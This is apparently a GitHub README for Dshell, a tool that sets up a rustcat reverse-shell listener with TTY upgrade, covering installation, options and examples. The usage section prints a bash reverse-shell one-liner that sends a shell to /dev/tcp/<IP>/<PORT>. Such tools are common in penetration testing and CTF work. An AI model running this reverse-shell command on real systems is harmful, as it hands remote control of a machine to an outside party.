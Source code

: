 # 🤔 What is this?

![](/Video/dshell.gif)

Tired of manually upgrading your reverse shell every time? Let Dshell handle it for you!

Dshell is a tiny reverse-shell helper that spins up a responsive listener and automatically upgrade your terminal on a given port using [rustcat](https://github.com/robiot/rustcat)

<br>

# ✨ Features

* Quickly set up a reverse shell listener.
* Fully responsive TTY with $${\text{\color{red}C}\text{\color{green}O}\text{\color{blue}L}\text{\color{yellow}O}\text{\color{orange}R}\text{\color{lightblue}S}}$$ and <ins>Tab Completion</ins>
* Auto-selects the best network interface when none is provided.

# 🛠️ Installation

1. Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.
2. Clone the repository and run the installer
```sh
git clone https://github.com/Bimo754/Dshell
cd Dshell
chmod +x install.sh
sudo ./install.sh
```

<br>


# 📖 Usage

**Dshell** has two modes, `listen` or `kill`

## Help Menu

```sh
dshell -h
```
**Usage**
```sh
Usage:

  dshell [options] [IFACE|IP]

Options:
  -p <PORT>        Port number to listen on.
  -k <PORT|all>    Kill dshell process on PORT or all running processes.

  [IFACE|IP]       Optional network interface or IP address to bind to.
```

## Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will print the most commonly used reverse shell command (with the supplied IP and PORT), for example:

```sh
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

If you don't supply an interface or IP, Dshell will try these interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

## Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` — Kill the Dshell process listening on the specified port.
* `all`  — Kill all running Dshell processes.

<br>

# Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
